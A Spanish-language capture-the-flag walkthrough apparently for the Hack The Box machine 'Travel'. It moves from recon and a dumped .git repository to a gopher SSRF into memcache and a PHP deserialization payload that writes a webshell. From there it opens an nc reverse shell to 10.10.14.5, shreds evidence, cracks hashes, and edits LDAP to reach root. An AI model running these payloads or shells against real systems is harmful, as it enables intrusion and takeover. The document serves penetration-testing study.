```zsh
ping -c 3 10.10.10.189

PING 10.10.10.189 (10.10.10.189) 56(84) bytes of data.
64 bytes from 10.10.10.189: icmp_seq=1 ttl=63 time=62.1 ms
64 bytes from 10.10.10.189: icmp_seq=2 ttl=63 time=63.4 ms
64 bytes from 10.10.10.189: icmp_seq=3 ttl=63 time=62.7 ms
```

## Recon

```zsh
nmap -sCV -p 22,80,443 10.10.10.189 -oN targeted

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d3:9f:31:95:7e:5e:11:45:a2:b4:b6:34:c0:2d:2d:bc (RSA)
|   256 ef:3f:44:21:46:8d:eb:6c:39:9c:78:4f:50:b3:f3:6b (ECDSA)
|_  256 3a:01:bc:f8:57:f5:27:a1:68:1d:6a:3d:4e:bc:21:1b (ED25519)
80/tcp  open  http     nginx 1.17.6
|_http-title: Travel.HTB
|_http-server-header: nginx/1.17.6
443/tcp open  ssl/http nginx 1.17.6
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=www.travel.htb/organizationName=Travel.HTB/countryName=UK
| Subject Alternative Name: DNS:www.travel.htb, DNS:blog.travel.htb, DNS:blog-dev.travel.htb
| Not valid before: 2020-04-23T19:24:29
|_Not valid after:  2030-04-21T19:24:29
|_http-server-header: nginx/1.17.6
|_http-title: 400 The plain HTTP request was sent to HTTPS port
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

DNS

```zsh
echo "10.10.10.189 travel.htb blog.travel.htb blog-dev.travel.htb www.travel.htb" | sudo tee -a /etc/hosts
```

- Travel web


- Subdomains https


- Blog Travel (WordPress)



- Blog Dev travel


```zsh
wpscan --url http://blog.travel.htb enumerate u
```

```bash
[+] URL: http://blog.travel.htb/ [10.10.10.189]
[+] Started: Wed Jul 30 22:07:15 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: nginx/1.17.6
 |  - X-Powered-By: PHP/7.3.16
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://blog.travel.htb/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://blog.travel.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://blog.travel.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://blog.travel.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4 identified (Insecure, released on 2020-03-31).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.travel.htb/feed/, <generator>https://wordpress.org/?v=5.4</generator>
 |  - http://blog.travel.htb/comments/feed/, <generator>https://wordpress.org/?v=5.4</generator>

[+] WordPress theme in use: twentytwenty
 | Location: http://blog.travel.htb/wp-content/themes/twentytwenty/
 | Last Updated: 2025-04-15T00:00:00.000Z
 | Readme: http://blog.travel.htb/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 2.9
 | Style URL: http://blog.travel.htb/wp-content/themes/twentytwenty/style.css?ver=1.2
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://blog.travel.htb/wp-content/themes/twentytwenty/style.css?ver=1.2, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <==============================================================================================================================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.
```

```zsh
or domain in travel.htb blog.travel.htb blog-dev.travel.htb; do nmap --script http-enum -p80 $domain -oN ${domain}_webScan; done
```

### Git

- blog.travel

```zsh
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /wp-login.php: Possible admin folder
|   /wp-json: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2 
|   /: WordPress version: 5.4
|   /feed/: Wordpress version: 5.4
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|_  /0/: Potentially interesting folder
```

- blog-dev.travel.htb

```zsh
# Nmap 7.95 scan initiated Wed Jul 30 22:10:31 2025 as: /usr/lib/nmap/nmap --privileged --script http-enum -p80 -oN blog-dev.travel.htb_webScan blog-dev.travel.htb
Nmap scan report for blog-dev.travel.htb (10.10.10.189)
Host is up (0.063s latency).
rDNS record for 10.10.10.189: travel.htb

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /.git/HEAD: Git folder
```

https://github.com/arthaud/git-dumper

```zsh
python3 git_dumper.py http://blog-dev.travel.htb/.git/ travel
```

Si revisamos primero el log de git podemos ver un usuario `jane`



### RSS

Tenemos 3 archivos de los cuales el rss_template.php tiene al final un apartado en el codigo interesante:

```php
<!--
DEBUG
<?php
if (isset($_GET['debug'])){
  include('debug.php');
}
?>
-->
```

Finalmente, si `$_GET['debug']`se establece, `debug.php`se incluye. Esto usa SimplePie, un plugin para WordPress diseñado para analizar feeds XML en objetos PHP.

Descubrí su `memcache`uso y revisé la documentación de SimplePie. Resulta que los objetos PHP que representan los feeds XML se almacenan en caché durante un breve periodo.

La funcionalidad `debug.php` fue un poco más difícil de encontrar. Finalmente descubrí que al visitar http://blog.travel.htb/awesome-rss/, debug.php mostraba una salida. Tras volver a comprobar el código RSS, descubrí que era una lista de pares clave-valor almacenados en Memcache.



```
view-source:http://blog.travel.htb/wp-content/themes/twentytwenty/debug.php
```

La clave `xct_4e5612ba{...}` es el prefijo con un hash añadido; sin embargo, el hash completo no es visible.

- rss_template.php

```php
<?php

/*

Template Name: Awesome RSS

*/

include('template.php');

get_header();
?>
<main class="section-inner">
	<?php
	function get_feed($url){
     require_once ABSPATH . '/wp-includes/class-simplepie.php';	    
     $simplepie = null;	  
     $data = url_get_contents($url);
     if ($url) {
         $simplepie = new SimplePie();
         $simplepie->set_cache_location('memcache://127.0.0.1:11211/?timeout=60&prefix=xct_');

         //$simplepie->set_raw_data($data);

         $simplepie->set_feed_url($url);
         $simplepie->init();
         $simplepie->handle_content_type();
         if ($simplepie->error) {
             error_log($simplepie->error);
             $simplepie = null;
             $failed = True;
         }
     } else {
         $failed = True;
     }
     return $simplepie;
 	 }
 	$url = $_SERVER['QUERY_STRING'];
	if(strpos($url, "custom_feed_url") !== false){
		$tmp = (explode("=", $url)); 	
		$url = end($tmp); 	
 	 } else {
 	 	$url = "http://www.travel.htb/newsfeed/customfeed.xml";
 	 }
 	 $feed = get_feed($url); 
     if ($feed->error())
		{
			echo '<div class="sp_errors">' . "\r\n";
			echo '<p>' . htmlspecialchars($feed->error()) . "</p>\r\n";
			echo '</div>' . "\r\n";
		}
		else {
	?>
	<div class="chunk focus">
		<h3 class="header">
		<?php 
			$link = $feed->get_link();
			$title = $feed->get_title();
			if ($link) 
			{ 
				$title = "<a href='$link' title='$title'>$title</a>"; 
			}
			echo $title;
		?>
		</h3>
		<?php echo $feed->get_description(); ?>

	</div>
	<?php foreach($feed->get_items() as $item): ?>
		<div class="chunk">
			<h4><?php if ($item->get_permalink()) echo '<a href="' . $item->get_permalink() . '">'; echo $item->get_title(); if ($item->get_permalink()) echo '</a>'; ?>&nbsp;<span class="footnote"><?php echo $item->get_date('j M Y, g:i a'); ?></span></h4>
			<?php echo $item->get_content(); ?>
			<?php
			if ($enclosure = $item->get_enclosure(0))
			{
				echo '<div align="center">';
				echo '<p>' . $enclosure->embed(array(
					'audio' => './for_the_demo/place_audio.png',
					'video' => './for_the_demo/place_video.png',
					'mediaplayer' => './for_the_demo/mediaplayer.swf',
					'altclass' => 'download'
				)) . '</p>';
				if ($enclosure->get_link() && $enclosure->get_type())
				{
					echo '<p class="footnote" align="center">(' . $enclosure->get_type();
					if ($enclosure->get_size())
					{
						echo '; ' . $enclosure->get_size() . ' MB';
					}
					echo ')</p>';
				}
				if ($enclosure->get_thumbnail())
				{
					echo '<div>get_thumbnail() . '" alt="" /></div>';
				}
				echo '</div>';
			}
			?>
		</div>
	<?php endforeach; ?>
<?php } ?>

</main>

<!-
DEBUG
<?php

if (isset($_GET['debug'])){
  include('debug.php');
}
?>
-->

<?php get_template_part( 'template-parts/footer-menus-widgets' ); ?>

<?php
get_footer();
```

- template.php

```zsh
<?php
/**
 Todo: finish logging implementation via TemplateHelper
*/
function safe($url)
{
	// this should be secure
	$tmpUrl = urldecode($url);
	if(strpos($tmpUrl, "file://") !== false or strpos($tmpUrl, "@") !== false)
	{		
		die("<h2>Hacking attempt prevented (LFI). Event has been logged.</h2>");
	}
	if(strpos($tmpUrl, "-o") !== false or strpos($tmpUrl, "-F") !== false)
	{		
		die("<h2>Hacking attempt prevented (Command Injection). Event has been logged.</h2>");
	}
	$tmp = parse_url($url, PHP_URL_HOST);
	// preventing all localhost access
	if($tmp == "localhost" or $tmp == "127.0.0.1")
	{		
		die("<h2>Hacking attempt prevented (Internal SSRF). Event has been logged.</h2>");		
	}
	return $url;
}
function url_get_contents ($url) {
    $url = safe($url);
	$url = escapeshellarg($url);
	$pl = "curl ".$url;
	$output = shell_exec($pl);
    return $output;
}
class TemplateHelper
{
    private $file;
    private $data;
    public function __construct(string $file, string $data)
    {
    	$this->init($file, $data);
    }
    public function __wakeup()
    {
    	$this->init($this->file, $this->data);
    }
    private function init(string $file, string $data)
    {    	
        $this->file = $file;
        $this->data = $data;
        file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
    }
}
```

Esto implementa una `url_get_contents`función (utilizada por `rss_template.php`) que, tras realizar comprobaciones de seguridad y el escape de argumentos, pasa una URL a curl y devuelve el resultado. Con esto, podemos realizar falsificaciones de solicitudes del lado del servidor. También existe una clase TemplateHelper que, mediante el método mágico `__wakeup`(deserialización), escribirá datos arbitrarios en un archivo arbitrario.

Obtiene la URL del feed desde el parámetro `custom_feed_url` en la cadena de consulta sin validación.



- Inyeccion

```zsh
http://blog.travel.htb/awesome-rss/?custom_feed_url=http://10.10.14.5/custom.xml
```


Vemos que hay una via potencial pero aun no podemos hacer nada, simplemente entender la logica detras del codigo.



## php-serialize + ssrf + phpmemcache

Encontramos la forma en la que obtiene el hash para el serializado:

https://simplepie.org/api/source-class-SimplePie.html

```php
{
$cache = $this->registry->call('Cache', 'create', array($this->cache_location, call_user_func($this->cache_name_function, $this->feed_url), 'spc'));
```


```php
php > echo md5("http://www.travel.htb/newsfeed/customfeed.xml");
3903a76d1e6fef0d76e973a0561cbfc0
```

El problema aqui es que el output no es similar al md5 que obtenemos en debug, quiza hay alguna funcion que se estra agregando

https://github.com/WordPress/WordPress/blob/master/wp-includes/SimplePie/src/Cache/Memcache.php

```php
 $this->name = $this->options['extras']['prefix'] . md5("$name:$type");
```

En esta forma obtenemos el md5 correctamente

```php
echo md5(md5("http://www.travel.htb/newsfeed/customfeed.xml") . ":spc");
4e5612ba079c530a6b1f148c0b352241
```

```php
xct_4e5612ba079c530a6b1f148c0b352241
```

https://notsosecure.com/remote-code-execution-php-unserialize

https://github.com/tarunkant/Gopherus



```zsh
./gopherus.py --exploit phpmemcache
```



```python
>>> hex(127)
'0x7f'
>>> hex(0)
'0x0'
>>> hex(0)
'0x0'
>>> hex(1)
'0x1'
```

```zsh
http://blog.travel.htb/awesome-rss/?custom_feed_url=gopher://0x7f000001:11211/_%0D%0Aset%20SpyD3r%204%200%203%0D%0AOLA%0D%0A
```


tomaremos como ejemplo el archivo template.php

```php
<?php

class TemplateHelper
{

    private $file;
    private $data;

    public function __construct(string $file, string $data)
    {
        $this->init($file, $data);
    }

    public function __wakeup()
    {
        $this->init($this->file, $this->data);
    }

    private function init(string $file, string $data) {
        $this->file = $file;
        $this->data = $data;
        file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
    }
}
$exploit = new TemplateHelper("pwned.php", "<?php system(\$_REQUEST['cmd']); ?>");
echo serialize($exploit);
?>
```

- PoC

Si ejecutamos el codigo php malicioso `php pwnFeed.php` nos generara un archivo que contendra una webshell en logs



A su vez nos compartira el conenido que ejecutamos serializado

```zsh
php pwnFeed.php; echo

O:14:"TemplateHelper":2:{s:4:"file";s:9:"pwned.php";s:4:"data";s:31:"<?php system($_REQUEST['cmd']); ?>";} 
```


```zsh
O:14:"TemplateHelper":2:{s:20:"TemplateHelperfile";s:9:"pwned.php";s:20:"TemplateHelperdata";s:34:"<?php system($_REQUEST['cmd']); ?>";}
```

---
En estos pasos puedes tener algún problema ya que la serialización PHP es muy estricta con los formatos.

Aqui ocurren errores en el formato 

```php
http://blog.travel.htb/awesome-rss/?custom_feed_url=gopher://0x7f000001:11211/_%0d%0aset%20SpyD3r%204%200%20109%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:20:%22file%22%3Bs:9:%22pwned.php%22%3Bs:20:%22data%22%3Bs:34:%22%3C%3Fphp%20system%28%24_REQUEST%5B%27cmd%27%5D%29%3B%20%3F%3E%22%3B%7D%20%0d%0a
```



Ahora remplazaremos SpyD3r por xct_{md5...}

```php
http://blog.travel.htb/awesome-rss/?debug=yes&custom_feed_url=gopher://127.00.0.1:11211/_%0d%0aset%20xct_4e5612ba079c530a6b1f148c0b352241%204%200%20108%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:13:%22pwndshell.php%22%3Bs:4:%22data%22%3Bs:31:%22%3C%3Fphp%20system%28%24_REQUEST%5B%22cmd%22%5D%29%3B%22%3B%7D%0d%0a
```
 
#### RCE

```zsh
http://blog.travel.htb/wp-content/themes/twentytwenty/logs/pwndshell.php?cmd=which%20nc
```

```zsh
http://blog.travel.htb/wp-content/themes/twentytwenty/logs/pwndshell.php?cmd=nc -e /bin/bash 10.10.14.5 4444
```

#### Container

```zsh
ip a

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
16: eth0@if17: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:1e:00:0a brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.30.0.10/24 brd 172.30.0.255 scope global eth0
       valid_lft forever preferred_lft forever
```

Eliminamos evidencia del archivo

```zsh
shred -zun 5 -v pwned.php
```

```zsh
 cat /etc/os-release
```

```zsh
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

- wp-config.php

```mysql
'DB_NAME', 'wp' 
'DB_USER', 'wp'
'DB_PASSWORD', 'fiFtDDV9LYe8Ti'
```

### Mysql

> El puerto por defecto de MySQL/MariaDB es (3306)

```zsh
mysql -mysql -uwp -p
```



```zsh
admin $P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/
```

Con john no se pudo romper quiza haya que seguir enumerando para conseguir algo con que o como romper.

- OPT Directory

```bash
www-data@blog:/opt/wordpress$ ls
backup-13-04-2020.sql
www-data@blog:/opt/wordpress$ 
```

si abrimos el archivo sql podemos ver al final que vemos otro usuario, ``lynik-admin`` y su hash que intentaremos nuevamente con john si podemos romperla.


```zsh
john pass -w=/usr/share/wordlists/rockyou.txt
```

```zsh
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1stepcloser      (?)     
1g 0:00:00:17 DONE (2025-08-02 00:43) 0.05630g/s 41140p/s 41140c/s 41140C/s 1stward..1mireya
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
```

Probamos conectarnos con ssh, ya que este usuario no existe en el contenedor,

```zsh
ssh lynik-admin@10.10.10.189

lynik-admin@10.10.10.189's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Sat 02 Aug 2025 04:51:01 AM UTC

  System load:                      0.13
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     14%
  Swap usage:                       0%
  Processes:                        201
  Users logged in:                  0
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

lynik-admin@travel:~$ 
```

- Enumeration 

```
 ls /home
lynik-admin  trvl-admin
```

```zsh
ls -la

total 36
drwx------ 3 lynik-admin lynik-admin 4096 Apr 24  2020 .
drwxr-xr-x 4 root        root        4096 Apr 23  2020 ..
lrwxrwxrwx 1 lynik-admin lynik-admin    9 Apr 23  2020 .bash_history -> /dev/null
-rw-r--r-- 1 lynik-admin lynik-admin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 lynik-admin lynik-admin 3771 Feb 25  2020 .bashrc
drwx------ 2 lynik-admin lynik-admin 4096 Apr 23  2020 .cache
-rw-r--r-- 1 lynik-admin lynik-admin   82 Apr 23  2020 .ldaprc
-rw-r--r-- 1 lynik-admin lynik-admin  807 Feb 25  2020 .profile
-r--r--r-- 1 root        root          33 Aug  1 22:03 user.txt
-rw------- 1 lynik-admin lynik-admin  861 Apr 23  2020 .viminfo

lynik-admin@travel:~$ cat .ldaprc
HOST ldap.travel.htb
BASE dc=travel,dc=htb
BINDDN cn=lynik-admin,dc=travel,dc=htb
lynik-admin@travel:~$ 
```

- .viminfo

```zsh
# Registers:
""1	LINE	0
	BINDPW Theroadlesstraveled
|3,1,1,1,1,0,1587670528,"BINDPW Theroadlesstraveled"
```

## LDAP

```zsh
 apropos ldap
 
ldap.conf (5)        - LDAP configuration file/environment variables
ldapadd (1)          - LDAP modify entry and LDAP add entry tools
ldapcompare (1)      - LDAP compare tool
ldapdelete (1)       - LDAP delete entry tool
ldapexop (1)         - issue LDAP extended operations
ldapmodify (1)       - LDAP modify entry and LDAP add entry tools
ldapmodrdn (1)       - LDAP rename entry tool
ldappasswd (1)       - change the password of an LDAP entry
ldapsearch (1)       - LDAP search tool
ldapurl (1)          - LDAP URL formatting tool
ldapwhoami (1)       - LDAP who am i? tool
ldif (5)             - LDAP Data Interchange Format
sssd-ldap (5)        - SSSD LDAP provider
sssd-ldap-attributes (5) - SSSD LDAP Provider: Mapping Attributes
```

```zsh
ldapsearch -x -w Theroadlesstraveled
```

```zsh
# LDAPv3
# base <dc=travel,dc=htb> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# travel.htb
dn: dc=travel,dc=htb
objectClass: top
objectClass: dcObject
objectClass: organization
o: Travel.HTB
dc: travel

# admin, travel.htb
dn: cn=admin,dc=travel,dc=htb
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator

# servers, travel.htb
dn: ou=servers,dc=travel,dc=htb
description: Servers
objectClass: organizationalUnit
ou: servers

# lynik-admin, travel.htb
dn: cn=lynik-admin,dc=travel,dc=htb
description: LDAP administrator
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: lynik-admin
userPassword:: e1NTSEF9MEpaelF3blZJNEZrcXRUa3pRWUxVY3ZkN1NwRjFRYkRjVFJta3c9PQ=
 =
```

En esta lista aparecen varios usuarios, creare una lista

```d
jane
frank
brian
jerry
edward
lynik
eugene
gloria
johnny
louise
christopher
```

[SUDO](https://www.sudo.ws/docs/man/1.8.16/sudoers.ldap.man/)

[# How To Use LDIF Files to Make Changes to an OpenLDAP System](https://www.digitalocean.com/community/tutorials/how-to-use-ldif-files-to-make-changes-to-an-openldap-system)

```zsh
ssh-keygen -t ed25519 -C "jerry@kali" 
```

En lynik-admin creamos el archivo siguiente: `cat pwn.ldif`

```zsh
dn: uid=jerry,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changetype: modify
replace: homeDirectory
homeDirectory: /root
-
add: objectClass
objectClass: ldapPublicKey
-
add: sshPublicKey
sshPublicKey: ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHg13eMgcFZIOtDehZPZSj4JlLEgV4gBDJyh+448r/Zq jerry@kali
-
replace: userPassword
userPassword: Pwn3d
-
replace: gidNumber
gidNumber: 27
```

```zsh
ldapmodify -D "cn=lynik-admin,dc=travel,dc=htb" -w Theroadlesstraveled -f pwn.ldif
```



```zsh
ssh -i key-cred jerry@travel.htb
sudo su -
Pwn3d
```



